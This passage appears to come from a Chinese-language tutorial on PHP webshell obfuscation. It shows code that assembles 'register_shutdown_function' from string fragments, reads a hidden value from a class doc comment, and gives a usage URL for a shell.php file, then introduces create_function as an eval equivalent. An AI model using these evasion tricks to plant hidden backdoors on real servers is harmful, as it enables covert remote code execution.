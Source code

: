 ```php
    function qwer() {
    	$user = new ReflectionClass('User');
		$comment = $user->getDocComment();
		$d = substr($comment , 12, 12);
		return $d;
    }
    function h3rmesk($a, $b) {
		return "regist"."er_shut"."down_function";
	}
    $h33 = new demo(qwer());
    $h44 = new bemo($h33->artart());
    $h44->brtbrt();
?>

// 利用方式: http://localhost/html/shell.php?file_name=cucvasb%2528%2529
```

<div align=center><img src="./images/5.png"></div>

## create_function 和 preg_replace
`create_function`的作用是创建一个匿名函数, 在内部相当于执行了一次`eval`:
